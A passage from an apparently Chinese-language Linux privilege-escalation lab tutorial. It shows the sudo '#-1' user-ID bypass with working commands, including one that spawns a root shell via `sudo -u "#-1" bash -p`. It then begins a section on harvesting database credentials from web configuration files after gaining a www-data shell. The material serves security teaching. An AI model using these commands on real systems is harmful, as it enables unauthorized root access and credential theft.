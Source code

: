 下面我们尝试一个这个漏洞，在命令行执行以下命令：

```bash
sudo -u "#-1" whoami
sudo -u "#4294967295" whoami
```

![图片描述](..\images\2021-01-23_70.jpg)

如上图所示，我们成功绕过了 sudoers 配置文件的限制。

类似于之前 SUID 提权中提到的，使用如下命令便可获得一个 root 权限的 shell:

```bash
sudo -u "#-1" bash -p
```

![图片描述](..\images\2021-01-23_71.jpg)

当然 sudo 还有其他漏洞可以被利用来提权，我们这里只是抛砖引玉，同学们在实战的时候可以根据 sudo 的版本，在 exploitdb 上查询具体的漏洞来进行利用。

### 七. 查找敏感文件提权

假设我们已经通过 Web 漏洞反弹回一个 shell，是 www-data 用户的权限。

通过尝试之前几个实验中的方法都未成功，那么我们可以尝试在 Linux 上是否能寻找到一些认证信息，并利用该认证信息进行提权。

在本章中，我们会通过两个实验，分别从 `Web 服务配置文件`和`用户配置文件`入手，收集信息并完成提权。

#### Web 服务配置文件

有时候通过查找服务器上的 Web 配置文件，可以发现数据库的连接账户和密码。登录数据库后，通过收集数据库中存储的用户密码，并且管理员如果存在密码复用的情况，即可完成提权，下面我们通过一个具体的实验来理解一下。
